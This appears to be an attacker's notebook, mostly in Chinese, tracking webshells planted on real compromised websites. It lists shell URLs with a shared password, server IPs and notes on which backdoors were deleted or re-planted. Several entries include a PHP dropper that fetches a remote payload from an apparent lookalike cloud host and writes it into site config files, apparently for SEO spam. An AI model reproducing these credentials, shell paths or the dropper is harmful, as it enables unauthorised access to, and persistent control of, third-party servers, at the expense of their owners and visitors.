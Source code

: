 
http://www.xn--wlq673eova83m.cn/core/extend/code/simple.php |mmk123 | 124.222.129.233
http://www.lgms56.cn/skin/images/m1.php |mmk123 | 114.55.130.128

http://yqyb.fun/template/template_init.php |mmk123 | 154.212.146.242   0526-  403了
http://cablewiresfactory.com/template/template_init.php |mmk123 | 216.224.127.219    403

https://www.taiyangnengludengweixiu.com/uploads/20230227/m1.php |mmk123 | 8.140.244.215
https://hnsjtjsxh.cn/   河南省交通技术协会  已经有半岛 已批量改
代码更新：
https://hnsjtjsxh.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
TDK检查：
https://hnsjtjsxh.cn/config/httpd.php?d=up


http://reshihuoke.cn/template/default/html/comm/m1.php |mmk123 | 124.221.145.227
代码更新：
http://reshihuoke.cn/rewrite/nginx.php  名字任意
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
TDK检查：
http://reshihuoke.cn/config/httpd.php?d=up

http://360ai.cc/wp-content/languages/themes/m1.php |mmk123 | 124.221.145.227
https://www.crystunion.com/template/default/simple.php |mmk123 | 47.105.45.80
https://www.tzsps.com/static/images/m1.php |mmk123 | 106.54.60.101

## 待办：
regular: 
http://fangac.cn/three/three.js-master/docs/api/ar/audio/m1.php |mmk123 | 114.55.58.214
主要是管理后台 已改

https://www.1000ma.net/static/backup/sql/m1.php |mmk123 | 120.77.152.51  Done

https://gxzhiyin.cn/skin/fonts/m1.php |mmk123 | 211.101.244.147  连不上

https://www.nbtongpin.com/template/default/defaults.php-big |wso | 139.129.34.1  大马不会玩 0530 被删了 

https://www.jiucaimiao.cn/template/default/wap/comm/m1.php |mmk123 | 101.201.103.109  已留下 https://www.jiucaimiao.cn/us.php  0608被删了

http://www.gzchaoyinsu.com/template/default/bootstrap/js/js.php |mmk123 | 120.77.250.124 已留下 http://www.gzchaoyinsu.com/us.php OK

http://118.178.126.253/template/default/bootstrap/js/js.php |mmk123 | Invalid domain 已留下 http://118.178.126.253/us.php

http://www.kongquewangxiao.com/themes/js/js.php |mmk123 | 121.196.161.139  珍宝网络
代码更新： 
www.kongquewangxiao.com/fonts/glyphicons-halflings-regular.php
<?php file_put_contents("/www/wwwroot/www.kongquewangxiao.com/us.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查： 
http://www.kongquewangxiao.com/us.php
